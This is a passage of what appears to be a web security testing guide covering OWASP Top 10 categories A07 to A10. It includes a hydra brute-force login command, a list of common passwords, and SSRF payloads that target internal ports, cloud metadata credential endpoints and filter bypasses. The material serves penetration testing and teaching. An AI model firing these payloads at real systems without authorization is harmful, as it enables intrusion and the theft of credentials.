 ### A07 - Identification and Authentication Failures
**Description**: Compromised user identity, authentication, or session management.

**Testing Areas**:
```bash
# Weak password policy testing
# Try common passwords
password
123456
admin
qwerty

# Brute force testing
hydra -l admin -P passwords.txt https-form-post://example.com/login

# Session fixation testing
# Check if session ID changes after login

# Account lockout testing
# Test if account gets locked after failed attempts
```

### A08 - Software and Data Integrity Failures
**Description**: Assumptions about software updates, critical data, and CI/CD pipelines.

**Testing Focus**:
- Unsigned or unverified software updates
- Insecure CI/CD pipelines
- Auto-update functionality
- Serialization/deserialization flaws

### A09 - Security Logging and Monitoring Failures
**Description**: Insufficient logging and monitoring of security events.

**Testing Checklist**:
- Login attempts not logged
- High-value transactions not logged
- No alerting for suspicious activities
- Logs not protected from tampering

### A10 - Server-Side Request Forgery (SSRF)
**Description**: Web application fetches remote resources without validating user-supplied URLs.

**Testing Techniques**:
```bash
# Basic SSRF tests
http://127.0.0.1
http://localhost
http://0.0.0.0
http://[::1]

# Port scanning via SSRF
http://127.0.0.1:22
http://127.0.0.1:3306
http://127.0.0.1:6379

# Cloud metadata access
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/metadata/identity/oauth2/token

# Bypass attempts
http://127.1
http://2130706433 (decimal representation of 127.0.0.1)
http://localhost.evil.com
```
